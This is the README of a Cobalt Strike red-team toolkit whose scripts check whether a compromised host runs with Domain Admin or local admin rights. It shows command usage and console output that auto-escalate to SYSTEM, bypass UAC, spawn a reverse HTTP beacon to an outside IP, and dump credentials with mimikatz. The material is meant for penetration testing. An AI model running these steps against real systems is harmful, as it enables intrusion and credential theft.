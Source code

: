 # CobaltStrike-ToolKit
I’m sure there are better ways of doing all of this but as of right now there hasn’t been much put out so this will do :)

## Work Conducted by:
- Alexander Rymdeko-Harvey [Twitter] @Killswitch-GUI -- [Web] CyberSydicates.com
- Brian R [Twitter] @brian_psu

## CheckDA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent user name.
While using .NET 3.5 to perform Domain Group enumeration (PowerShell 2+ safe). This allows for alerting on Pen-Test of a DA level beacons. 
- Places a note on the beacon
- Logs to the Event Log for team to see PID
- uses a Pop up to alert opperator

### Usage
Load up the Script:
```
aggressor> load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
[+] Load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
```
When a initial beacon comes in you receive a pop up box and will see:
```
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck -Initial True
[+] host called home, sent: 2527 bytes
[+] received output:
Found-DA-User: admin
```
### Independent Command:
```
beacon> checkda
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck
[+] host called home, sent: 2519 bytes
[+] received output:
[!] Currently DA Context
```
## CheckLA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent context.
While using .NET 3.5 to perform Local Group enumeration and Token Context (PowerShell 2+ safe). This has the following context:

1. Checks for Initial Beacons Context (Elevated or Local Admin)
2. If the beacon is elevated it will Auto Getsystem, and run LogonPasswords
3. If the beacon in Local Admin but not in a high integrity process it will run Bypass UAC on that beacon
4. This will than launch a beacon in a high integrity beacon causing the first event to fire running LogonPasswords

### Usage 
Run this with all the other scripts
```
aggressor> load Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
when a Initial Beacon comes in:
```
aggressor> reload Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
If it returns as a Local Admin it will perform Bypass UAC:
```
[*] Tasked beacon to spawn windows/beacon_http/reverse_http (192.168.1.198:80) in a high integrity process
[+] host called home, sent: 76304 bytes
```
The new beacon will run logonPassword as desired :)
```
[*] Tasked beacon to get SYSTEM
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 444597 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
```
### Independent Command 
```
beacon> checkla
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/CheckLAdminContext.ps1
[*] Tasked beacon to run: Invoke-LocalAdminCheck
[+] host called home, sent: 2622 bytes
[+] received output:
[!] Currently-in-LocalAdmin-Context
```
## DA-Watch - Set of Commands

Developed by @britz to perform the same DA monitoring but using all Aggressor script to perform DA Group checks (OPSEC). This has a few commands and requires you to update the list of DA members. this can be done with a few commands and is very effective way of checking for DA without loading PowerShell. On Pen-test's its not a big problem but on a red team OP this may be a No-Go.

### Usage
 load up the script
```
aggressor> load DA-Watch.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/DA-Watch.cna
```
Run this command and it will populate the known DA list
```
shell net group /domain "Domain Admins"
```
### uaddDA - Command
Adds a user to the DA list
### uremDA - Command
Removes a user from the DA list
### ulistDA - Command
Prints a list of the current DA's to the Console
### uhookOn
Sets the hook to follow beacon output to "On". This will watch all output for Shell net group...
### uhookOff
Turns off the watch hook and set the follow beacon output to off.

### Credential Checks
Every time a Cred is added to the Cred data model a credential is checked against the known list of creds. If it matches it posts to the event log! 




